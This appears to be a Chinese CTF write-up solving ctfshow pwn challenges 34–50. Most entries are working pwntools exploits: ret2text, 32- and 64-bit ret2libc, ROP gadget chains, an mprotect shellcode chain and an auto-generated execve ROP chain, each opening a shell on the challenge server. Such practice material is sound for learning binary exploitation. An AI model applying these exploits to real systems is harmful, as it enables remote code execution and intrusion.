


```
ctfshow{15f6e155-a89d-45cd-a886-c5d541b1d178}
```


## 34. pwn34（Fortify=2）

FORTIFY_SOURCE=2：

启用 Fortify 功能的高级级别。 包括基本级别的安全检查，并添加了更多的检查。 在编译时进行更严格的检查，如更精确的缓冲区边界检查。 提供更丰富的编译器警告和错误信息。

check结果和pwn33 一样

看到main函数，有很多地方的函数都加了后缀的chk


还是直接连接ssh

```
ssh ctfshow@pwn.challenge.ctf.show -p28156
```


还是一样的做法，直接出来了flag


```
ctfshow{852dbd08-1327-491e-9f41-a0db67272c0a}
```


思考：

上述能够执行拿到flag，因为他只是判断参数个数来返回flag作为学习用途，但是如果要溢出地方在strcpy、strcat、memcpy等地方发生溢出，它就能进行防范。

`FORTIFY_SOURCE`不能防范所有类型的缓冲区溢出。它主要关注的是标准库函数的使用，对于自定义的可能导致缓冲区溢出的代码（如自定义的内存复制函数没有进行边界检查），它无法提供保护。而且它也不能处理像格式化字符串漏洞等其他类型的漏洞。

所谓自定义就是malloc之类的函数，动态分配编译器在编译的时候很难确定缓冲区的使用情况


# 栈溢出


## 35. pwn35

正式开始栈溢出了，先来一个最最最最简单的吧

用户名为 ctfshow 密码 为 123456 请使用 ssh软件连接

```
ssh ctfshow@题目地址 -p题目端口号
```

**不是nc连接**


check一下：


找到可以操作的地方


需要填充满dest，到r，那就是0x6c + 0x04

找到后门函数：地址：0x080485E6


那就直接溢出


程序代码payload：

```python
payload = b'a' * (0x6C + 0x04) + p32(0x080485E6)
print(payload)
```


登上去，直接运行程序


```
./pwnme aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe6\x85\x04\x08
```





## 36. pwn36

存在后门函数，如何利用？


养成好习惯，check一下：


还是一样做法：


溢出到返回函数然后执行get_flag

```python
# # *- coding: utf-8 -*-
from pwn import * 
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28225
p = remote(ip,port)  
payload = b'a' * (0x28 + 0x04) + p32(0x08048586)
p.recvuntil(b'Enter what you want: ')
p.sendline(payload) 
p.interactive()
```


拿到flag：




## 37. pwn37

32位的 system(“/bin/sh”) 后门函数给你


直接进入ctfshow


后门：




很容易就得到exp：


```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28197

p = remote(ip,port)

payload = b'a'*(0x12+0x04) + p32(0x08048521)
p.recvuntil(b'Just very easy ret2text&&32bit')

p.sendline(payload)

p.interactive()
```


拿到flag

```
ctfshow{684d6a77-bd58-40c8-b783-664d4f5bbacf}
```


## 38. pwn38

64位的 system(“/bin/sh”) 后门函数给你


ida里面看

还是一样的函数

还是在backdoor


==需要注意的是Ubuntu18.04及以上，是会有各堆栈平衡校验的，所以要跳过push rbp，直接返回函数跳到call system的地方去==

直接写exp即可：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28114

p = remote(ip,port)

payload = b'a'* ( 0x0A + 0x08 ) + p64(0x040065B)
p.recvuntil(b'Just easy ret2text&&64bit')

p.sendline(payload)

p.interactive()
```


拿到flag：

```
ctfshow{b8d237f0-5bf6-4c00-923c-7b7b35a801fd}
```


## 39. pwn39

32位的 system(); "/bin/sh"


还是一样

```c
ssize_t ctfshow()
{
  char buf[14]; // [esp+6h] [ebp-12h] BYREF

  return read(0, buf, 0x32u);
}
```


有个hint函数


callsystem：


binsh:


构筑exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28238

p = remote(ip,port)

payload = b'a'* ( 0x12 + 0x04 ) + p32(0x0804854F) + p32(0x08048750)
p.recvuntil(b'Just easy ret2text&&32bit')

p.sendline(payload)

p.interactive()
```


拿到flag：

```
ctfshow{2943dff7-bf4b-47ad-ae11-0b67ba372335}
```


## ==40. pwn40（查找rdi）==

64位的 system(); "/bin/sh"


基本上都一样：

==但是64位传参是不一样的，amd64的前6个参数依次存放在rdi、rsi、rdx、rcx、r8、r9寄存器中，第七个以后的参数存放在栈上==


ida打开：

```asm
-000000000000000A buf             db 10 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```


callsystem：

```asm
.text:0000000000400657                 push    rbp
.text:0000000000400658                 mov     rbp, rsp
.text:000000000040065B                 lea     rdi, s          ; "/bin/sh"
.text:0000000000400662                 call    _puts
.text:0000000000400667                 lea     rdi, command    ; "echo 'You find me?'"
.text:000000000040066E                 call    _system
.text:0000000000400673                 pop     rbp
```


binsh:

```
.rodata:0000000000400808 ; const char s[]
.rodata:0000000000400808 s               db '/bin/sh',0          ; DATA XREF: hint+4↑o
```


我们的callsystem和binsh都知道，这里就找一个rdi的地址

```bash
ROPgadget --binary ./pwn --only "pop|ret" | grep "rdi"
```


```
0x00000000004007e3 : pop rdi ; ret
```


看其他wp说到，如果是18.04及以上，需要再加上一个ret的地址,因为还是堆栈平衡，有一个movaps

```
ROPgadget --binary ./pwn --only "ret"
```


exp如下：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28222

p = remote(ip,port)

rdi_ret_addr = 0x00000000004007e3
bin_sh_addr = 0x400808
system_addr = 0x40066E

payload = b'a'* ( 0x0A + 0x08 ) + p64(rdi_ret_addr) + p64(bin_sh_addr)  + p64(system_addr)
p.recvuntil(b'Just easy ret2text&&64bit')

p.sendline(payload)

p.interactive()
```


拿到flag：

```
ctfshow{1d053dee-be78-42b5-a86c-72f739724531}
```


## 41. pwn41

32位的 system(); 但是没"/bin/sh" ，好像有其他的可以替代


主要函数都没变，和上面差不多：

```c
ssize_t ctfshow()
{
  char buf[14]; // [esp+6h] [ebp-12h] BYREF

  return read(0, buf, 0x32u);
}
```


```
-00000014                 db ? ; undefined
-00000013                 db ? ; undefined
-00000012 buf             db 14 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```


hint函数如下：

```c
int hint()
{
  system("echo flag");
  return 0;
}
```


userful函数如下：

```c
int useful()
{
  return printf("sh");
}
```


那就直接exp了：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28251

p = remote(ip,port)

payload = b'a'* (0x12 + 0x04) + p32(0x080483D0) + p32(0) + p32(0x080487BA)

p.sendline(payload)

p.interactive()
```


拿到flag：

```
ctfshow{d772faf8-75e3-45a9-a1d9-bb50c201290a}
```


## 42. pwn42

64位的 system(); 但是没"/bin/sh" ，好像有其他的可以替代


形式基本一样：

```c
ssize_t ctfshow()
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  return read(0, buf, 0x32uLL);
}
```


```
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A buf             db 10 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```


hint函数：


userful：

```
.text:00000000004006BE
.text:00000000004006BE ; =============== S U B R O U T I N E =======================================
.text:00000000004006BE
.text:00000000004006BE ; Attributes: bp-based frame
.text:00000000004006BE
.text:00000000004006BE                 public useful
.text:00000000004006BE useful          proc near
.text:00000000004006BE ; __unwind {
.text:00000000004006BE                 push    rbp
.text:00000000004006BF                 mov     rbp, rsp
.text:00000000004006C2                 lea     rdi, format     ; "sh"
.text:00000000004006C9                 mov     eax, 0
.text:00000000004006CE                 call    _printf
.text:00000000004006D3                 nop
.text:00000000004006D4                 pop     rbp
.text:00000000004006D5                 retn
.text:00000000004006D5 ; } // starts at 4006BE
.text:00000000004006D5 useful          endp
```


sh的地址：

```
.rodata:0000000000400868 ; const char command[]
.rodata:0000000000400868 command         db 'echo flag',0        ; DATA XREF: hint+4↑o
.rodata:0000000000400872 ; const char format[]
.rodata:0000000000400872 format          db 'sh',0               ; DATA XREF: useful+4↑o
.rodata:0000000000400875                 align 8
```


查找rdi的地址：


最终exp：

记得是先压sh地址，再压system的地址

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28286

p = remote(ip,port)

payload = b'a'* (0x0A + 0x08) + p64(0x400843)  +  p64(0x400872) + p64(0x4006B2)

p.sendline(payload)

p.interactive()
```


拿到flag

```
ctfshow{911f5362-3a05-43cd-a037-7bcf21b42120}
```


## ==43. pwn43（gets多次）==

32位的 system(); 但是好像没"/bin/sh" 上面的办法不行了，想想办法


ctfshow函数：

```c
char *ctfshow()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  return gets(s);
}
```

```
-0000006E                 db ? ; undefined
-0000006D                 db ? ; undefined
-0000006C s               db 104 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```


ida搜一下strings发现没有可以利用的点，所以肯定是我们要传进去/bin/sh   然后Ctrl + S ， 查看一下bss段有什么有用的地方

故意给你的buf2


ida直接搜plt区的system：


gets函数plt：


想法是这样的，gets输入s溢出后返回到gets，利用gets往buf2里面写入gets读取的buf2地址，再写入待会要送进去的/bin/sh的地址

参考wp：[CTFshow-PWN-栈溢出（pwn43）_ctfshow pwn43-CSDN博客](https://blog.csdn.net/Myon5/article/details/138167444)

一开始我也不是很能理解这边，看了wp，直接解析吧

前面一部分都知道，填充无用数据覆盖函数的返回地址

然后现在我们可以到达任意一步，但是考虑到程序里面有system，没有/bin/sh等字样，所以需要传进去/bin/sh

这时候就确定gets函数可以被利用，所以我们返回到gets函数的地址，这时候就执行gets函数了。

然后后面+sys函数的地址，由于调用的时候数据是压入栈中的，所以等gets函数执行完，就会执行sys函数了


后面传进去的分别是gets函数和system函数的参数

第一个参数是gets函数读取的数据，也就是待会我们要写buf2的地址，传到这里来

第二个就是待会字符串的地址，待会gets函数执行完之后，system函数就会执行这个地址上的参数


然后就是压入字符串 '/bin/sh'


最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28176

p = remote(ip,port)ruhe

gets_func = 0x8048420
buf2_addr = 0x804B060
sysm_addr = 0x8048450

payload = b'a'* (0x6C + 0x04) + p32(gets_func) + p32(sysm_addr) + p32(buf2_addr) + p32(buf2_addr) + b'/bin/sh'

p.sendline(payload)

p.interactive()
```


flag：

```
ctfshow{80cc66f6-b21d-4325-b6a2-02c2e54f8629}
```


## 44. pwn44

64位的 system(); 但是好像没"/bin/sh" 上面的办法不行了，想想办法


还是一样，只不过就是64位

```c
__int64 ctfshow()
{
  char v1[10]; // [rsp+6h] [rbp-Ah] BYREF

  return gets(v1);
}
```

```
-000000000000000A var_A           db 10 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```


callsystem在这里：


plt表：




可以看到还是一样跳到0x400744


plt表函数如上

0x400530


buf2


所以还是一样的构筑方法

去寻找rdi指针的具体地址


ret指针具体地址：


最后exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28112

p = remote(ip,port)

getp_func = 0x400530
buf2_addr = 0x602080
sysp_addr = 0x400520
rdix_addr = 0x4007f3
retx_addr = 0x4004fe

payload = b'a'* (0x0A + 0x08) 
payload += p64(rdix_addr) + p64(buf2_addr)
payload += p64(retx_addr)  + p64(getp_func) 
payload += p64(rdix_addr) + p64(buf2_addr) 
payload += p64(retx_addr) + p64(sysp_addr) 
# payload += b'/bin/sh' 

p.recvuntil(b'get system parameter!')
p.sendline(payload)
p.sendline("/bin/sh")

p.interactive()
```

注意压栈出栈的方式变化了，amd64需要rdi和ret来进行控制，为什么呢，因为ret可以调整栈上的对齐来保证后续地址正确对齐，养成习惯，加ret


拿到flag

```
ctfshow{0bdf5eed-fda7-4686-b012-aaff538c56f4}
```


## ==45. pwn45（32位ret2libc）==

32位 无 system 无 "/bin/sh"


关键函数就这一个：

```
ssize_t ctfshow()
{
  char buf[103]; // [esp+Dh] [ebp-6Bh] BYREF

  return read(0, buf, 200u);
}
```


栈上空间：

```
-0000006B buf             db 103 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


既没有system，也没有/bin/sh

那就是要我们找偏移，找system的地址和/bin/sh的地址

有一个puts函数，所以应该要puts打印出puts的地址，然后相减计算基址，然后找libc中system和/bin/sh的偏移，加上基址就可以dump到内存里去，实现shellcode


如果要走本地的

```python
elf = ELF('/lib/i386-linux-gnu/libc.so.6')
```

你可以通过ldd进行查询


后续程序不再是dump，而是symbols


注意LibcSearcher可能要你选择libc版本，选择下面：

```
libc6-i386_2.27-3ubuntu1_amd64
```


exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28256

p = remote(ip,port)
elf = ELF('./pwn')
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

offset = b'a'* (0x6B + 0x04)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset + p32(puts_plt) + p32(ctfshow_addr) + p32(puts_got)

p.recvuntil(b'O.o?')

p.sendline(payload)

p.recvuntil(b'\n')

puts_addr = u32(p.recv(4))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset + p32(system_addr) + p32(0) + p32(binsh_addr)

p.sendline(payload_exp)

p.interactive()
```


flag：


```
ctfshow{77effa58-ae0d-4439-b49c-8ae347890f9a}
```


## 46. pwn46（64位ret2libc）

64位 无 system 无 "/bin/sh"


rdi和ret寄存器如下：




注入点：

```
-0000000000000070 buf             db 112 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```


关键点在于64位堆栈平衡，以及地址是：填充至8字节

```
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
```

计算基址和偏移量啥的都和32位类似


唯一需要注意的是：

payload：

```
payload = offset

payload += p64(rdix_addr) + p64(puts_got)

payload += p64(puts_plt) 

payload += p64(ctfshow_addr)
```


payload_exp:

```
payload_exp = offset

payload_exp += p64(rdix_addr) + p64(binsh_addr)

payload_exp += p64(retx_addr) + p64(system_addr)
```


同理选择：

```
libc6_2.27-0ubuntu2_amd64
```


最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28284

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x400803 
retx_addr = 0x4004fe


offset = b'a'* (0x70 + 0x08)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(ctfshow_addr)

p.recvuntil(b'O.o?')
p.sendline(payload)

p.recvuntil(b'\n')

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(rdix_addr) + p64(binsh_addr)

payload_exp += p64(retx_addr) + p64(system_addr)

p.sendline(payload_exp)

p.interactive()
```


flag：

```
ctfshow{d36daf07-42e6-4b64-a0cc-f3598094ab19}
```


## 47. pwn47

ez ret2libc


.got.plt表可写

还是一样，ctfshow函数如下：

```c
int ctfshow()
{
  char s[152]; // [esp+Ch] [ebp-9Ch] BYREF

  puts("Start your show time: ");
  gets(s);
  return puts(s);
}
```


栈上空间

```
-0000009C s               db ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


同样没有system，但是有个gift，那就是useful：/bin/sh

```
.data:0804B028                 public useful
.data:0804B028 useful          db '/bin/sh',0          ; DATA XREF: main+AF↑o
```


puts发现格式是这样的

```
b'0xf7e0d360\nfflush 0xf7e0b500\nread: 0xf7e8b620\nwrite: 0xf7e8b6f0\ngift: 0x804b028\n\nStart your show time: \n'
```

我们只需要 0xf7e0d360这部分即可

```python
puts_addr = p.recvuntil("\n", drop = True)
```

但需要注意 'bytes' object cannot be interpreted as an integer


所以要改成：eval是返回一个表达式的值

```python
puts_addr = eval(p.recvuntil("\n", drop = True))
```


exp：

因为main函数里面，puts了puts函数的地址，所以就不用像之前那样两次payload，第一次payload找出puts在内存中的地址

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28187

p = remote(ip,port)
elf = ELF('./pwn')

userful_addr = 0x804B028

offset = b'a'* (0x9C + 0x04)

p.recvuntil("puts: ")
puts_addr = eval(p.recvuntil("\n", drop = True))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

payload_exp = offset
payload_exp += p32(system_addr)
payload_exp += p32(0)
payload_exp += p32(userful_addr)

p.recvuntil(b'Start your show time: ')

p.sendline(payload_exp)

p.interactive()
```


选择：

```
libc6-i386_2.27-3ubuntu1_amd64
```


拿到flag：

```
ctfshow{1387b274-895a-46b1-b591-d392cebcb326}
```


## 48. pwn48

没有write了，试试用puts吧，更简单了呢


还是一样，操作点：

```
ssize_t ctfshow()
{
  char buf[103]; // [esp+Dh] [ebp-6Bh] BYREF

  return read(0, buf, 0xC8u);
}
```


栈上：

```
-0000006B buf             db 103 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

看到程序有puts，且没有/bin/sh


注意：

观察接受形式：

```
\xd4\xf7\xc0\xfa\xd8\xf7
```


```
puts_addr = u32(p.recvuntil('\xf7')[-4:])
```


Libc库选择：

```
libc6-i386_2.27-3ubuntu1_amd64
```


那这个跟之前的pwn25好像一样，那就直接exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28295

p = remote(ip,port)
elf = ELF('./pwn')

offset = b'a'* (0x6B + 0x04)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset

payload += p32(puts_plt) 
payload += p32(ctfshow_addr)
payload += p32(puts_got)

p.recvuntil(b'O.o?')
p.sendline(payload)

puts_addr = u32(p.recvuntil('\xf7')[-4:])


libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset
payload_exp += p32(system_addr)
payload_exp += p32(0)
payload_exp += p32(binsh_addr)

p.sendline(payload_exp)

p.interactive()
```


拿到flag：

```
ctfshow{8afe0fe0-2746-413a-aa57-a526976f4ee3}
```


## ==49. pwn49（静态编译Mportect-ROP链）==


静态编译？或许你可以找找mportect函数

就是没有动态链接库，所以我们之前那种打法行不通了：


从0到1也不知道怎么解，mportect去了解一下

一般静态编译题目就是左边函数很多，程序代码很大


mportect函数作用能把内存的权限修改为可读可写可执行

mportect()函数可以修改调用进程内存页的保护属性，如果调用进程尝试以违反保护属性的方式访问该内存，则内核会发出一个SIGSEGV信号给该进程。

函数原型

```
int mportect(const void *start,size_t len,int port);

开始地址，长度，权限
```

权限参数选择：

```
port_READ：内存段可读；
port_WRITE：内存段可写；
port_EXEC：内存段可执行；
port_NONE：内存段不可访问。

port参数就和linux的差不多，421
r4
w2
x1
```


ida里面搜函数：

```c
unsigned int __cdecl mportect(const void *a1, size_t a2, int a3)
{
  unsigned int result; // eax

  result = sys_mportect(a1, a2, a3);
  if ( result >= 0xFFFFF001 )
    return _syscall_error();
  return result;
}
```


好了，还是一样的ctfshow

```c
int ctfshow()
{
  char v1[14]; // [esp+6h] [ebp-12h] BYREF

  return read(0, v1, 0x64);
}
```


还是一样的：

```
-00000012 var_12          db 14 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


偏移地址为`0x12 + 0x04`


但是不能用ret2libc来打，只能用mportect来打，将一段内存地址修改为7，然后将shellcode写进地址中去运行，这样即使开了栈保护也是可以执行


找到mportect函数地址入口：


```
0x0806CDD0
```

又因为你要传参嘛，传进去修改的地址，长度，权限，所以你要找到pop三个，ret一个的地址：


再看上面的函数，使用的就是eax，ebx，ebx等寄存器


plt表开始地址如下：


很显然ida里面看到不可执行的

```
0x080DA000
```


所以到这里可以先构造一部分的payload了

```python
mportect_addr = 0x0806cdd0
pop3_ret1_adr = 0x08056194
plt_start_adr = 0x080DA000
payload = b'a' * (0x12 + 0x04)
payload += p32(mportect_addr) 
payload += p32(pop3_ret1_adr) 
payload += p32(plt_start_adr) 
payload += p32(0x1000) 
payload += p32(0x7) 
```


read函数入口


```
0x0806BEE0
```

read同样也是需要传三个参数嘛

```
read(0, v1, 0x64);
```


思路是什么就是read->plt表开始地址（也就是shellcode地址）->参数1（0）->参数2（shellcode地址）->参数3（大小）


```python
read_addr = 0x0806BEE0
plt_start_adr = 0x080DA000
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')

payload += p32(read_addr)
payload += p32(plt_start_adr)
payload += p32(0x0) 
payload += p32(plt_start_adr)
payload += p32(len(shellcode))
```


最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port =  28252

r = remote(ip,port)
elf = ELF('./pwn')
offset = b'a' * (0x12 + 0x04)
read_addr = 0x0806BEE0
plt_start_adr = 0x080DA000
mportect_addr = 0x0806cdd0
pop3_ret1_adr = 0x08056194
plt_start_adr = 0x080DA000
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')

payload = offset
payload += p32(mportect_addr) 
payload += p32(pop3_ret1_adr) 
payload += p32(plt_start_adr) 
payload += p32(0x1000) 
payload += p32(0x7) 
payload += p32(read_addr) 
payload += p32(plt_start_adr) 
payload += p32(0x0) 
payload += p32(plt_start_adr) 
payload += p32(len(shellcode))
r.recvuntil("    * *************************************                           ")
r.sendline(payload)
r.sendline(shellcode)
r.interactive()
```


拿到flag：

```
ctfshow{502d38cc-ccde-4a04-9945-41ad670acc94}
```


----------------

==这里下面只是演示！！！！！！实际上它的read进行了限制，下面的脚本发送的是0x9f的数据，所以超过了实际情况，打不到内核！==


使用ROPgadget工具可以自动化生成rop链，但是需要满足条件：1.静态编译；==2.gets函数或者read函数并且该read函数可以溢出大量的字节，否则就无法实现自动化ROP==

```
ROPgadget --binary pwn --ropchain
```

生成之后，直接拉到最底下，一堆p+=的地方，全部复制粘贴

并且python脚本要加上，其他函数变量命名不能是p，因为rop生成的链命名就是p

```
from struct import pack
```


所以如果能打通，那么最终脚本为：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28252

r = remote(ip,port)
elf = ELF('./pwn')

# Padding goes here
p = b'a'*(0x12 + 0x04)

p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x080a8dd6) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08056cc5) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x080a8dd6) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08056cc5) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056280) # xor eax, eax ; ret
p += pack('<I', 0x08056cc5) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806e012) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056280) # xor eax, eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x08049663) # int 0x80

r.sendline(p)
r.interactive()
```


## 50. pwn50（远程libc）

好像哪里不一样了

远程libc环境 Ubuntu 18


```c
__int64 ctfshow()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Hello CTFshow");
  return gets(v1);
